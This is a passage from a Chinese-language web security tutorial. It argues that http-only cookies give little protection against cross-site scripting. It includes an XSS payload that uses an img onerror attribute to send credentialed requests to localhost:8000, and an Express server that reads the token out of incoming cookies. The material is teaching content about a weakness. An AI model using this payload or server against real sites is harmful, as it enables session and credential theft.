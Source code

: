 这些标头授予my-page.com "权利", 使其能够向后端服务器发送带有凭证的GET和POST请求  

有了这样的设置, 一切都正常了, 我们正在使用纯http的cookies  

现在让我们来探讨一下为什么这比localStorage好得不是一星半点

# http-only Cookies and XSS
我们不能用客户端的JavaScript代码读取或写入http-only cookies  因此, 我们必须对XSS进行安全防护, 对吗？

那么, 这段代码呢？
```js
// highlight-start
const userPickedImageUrl =
  'https://some-invalid-url.com/no-image!jpg" onerror="fetch("https://localhost:8000/", { credentials: "include" })'
// highlight-end

const contentWithUserInput = `
  <img src="${userPickedImageUrl}">
`

outputElement.innerHTML = contentWithUserInput
```

这段代码将通过XSS注入的代码向localhost:8000发送请求  

而且由于凭证的存在  "include", 所有的cookie(是的, 也包括http专用的cookie)都会被附上  

我们所需要的是一个后端服务器, 它可以是这样的  

```js
const express = require('express')
const app = express()

app.use((req, res, next) => {
  res.setHeader('Access-Control-Allow-Origin', 'https://localhost:3000')
  res.setHeader('Access-Control-Allow-Methods', 'GET')
  res.setHeader('Access-Control-Allow-Credentials', true)
  next()
})

app.get('/', (req, res) => {
  token = req.headers.cookie
    .split('; ')
    .find((c) => c.startsWith('token'))
    .split('=')[1]
  res.json({ message: 'Got ya!' })
})
app.listen(8000)
```

这个非常简单的服务器设置了正确的CORS头, 暴露了一个通往/的GET路由, 并从传入的cookie中读取令牌  

就这样了! 在这里, 你的http-only cookie是相当没有价值的  
